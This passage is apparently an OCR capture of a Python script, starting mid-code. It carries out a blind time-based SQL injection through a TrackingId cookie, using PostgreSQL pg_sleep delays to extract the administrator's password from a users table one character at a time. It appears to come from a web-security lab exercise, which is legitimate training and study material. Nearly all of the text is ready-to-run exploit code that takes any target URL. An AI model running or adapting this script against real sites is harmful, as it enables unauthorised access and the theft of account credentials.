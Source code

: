 ```sql
            sql_payload = "' || (select case when (username='administrator' and ascii(substring(password,%s,1))='%s') then pg_sleep(10) else pg_sleep(-1) end from users)--" %(i,j)
            sql_payload_encoded = urllib.parse.quote(sql_payload)
            cookies = {'TrackingId': '4kvqBxnpvcbcGVXk' + sql_payload_encoded, 'session': 'EI9T2L5PowgzjIUPcILvNp7IoJPvjvPN'}
            r = requests.get(url, cookies=cookies, verify=False, proxies=proxies)
            if int(r.elapsed.total_seconds()) > 9:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break
            else:
                sys.stdout.write('\r' + password_extracted + chr(j))
                sys.stdout.flush()


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Retreiving administrator password...")
    sqli_password(url) 

if __name__ == "__main__":
    main()
```